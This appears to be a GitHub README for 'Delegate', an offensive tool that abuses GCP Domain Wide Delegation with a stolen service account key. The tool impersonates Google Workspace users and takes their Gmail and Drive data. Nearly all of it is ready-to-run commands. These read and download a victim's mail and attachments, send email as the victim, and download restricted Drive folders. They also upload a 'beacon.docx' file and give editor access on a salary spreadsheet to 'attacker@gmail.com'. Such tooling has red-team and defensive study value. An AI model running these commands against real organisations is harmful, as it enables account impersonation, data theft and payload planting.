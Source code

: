 # Delegate
Tool to perform GCP Domain Wide Delegation abuse and access Gmail and Drive data from a compromised Service Account with domain wide delegation permissions configured within Google Workspace.

<img src="./Images/DomainWideDelegation_GCP.png" alt="gcpdelegation" width="800"/>

## Delegate tool usage
### Gmail usage
List all Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a list
```

Read Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read
```

List Gmail folders (Labels)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a folders
```

Download all attachments within the targeted Gmail (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a attachments
```

Read all emails within specified folder (Labels) (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read -f DRAFT
```

Send an email as targeted.delegated@mackinsoncloud.com to jdoe@gmail.com specifying subject and body email content
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a send -r jdoe@gmail.com -s "Test Messaage subject" -c "Hello this is a test email"
```

### Drive usage

List all files and folders within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a list
```

Download locally folder Restricted_documents using recursive option (-x)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -f Restricted_documents -x
```

Download locally a specific file secret.txt
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -t secret.txt
```

Upload files at user's Drive root folder (My Drive)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -t ./beacon.docx
```

Upload files within specific user's Drive folder or organizational Shared Drive
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -f Restricted_documents -t ./beacon.docx
```

Modify permissions on specific file or folder (Add external Gmail account with Editor permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -e attacker@gmail.com
```

Create shared link on specific file or folder for access with Editor role
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -l
```

<img src="./Images/shared_link_drive.png" alt="sharedlink" width="300"/>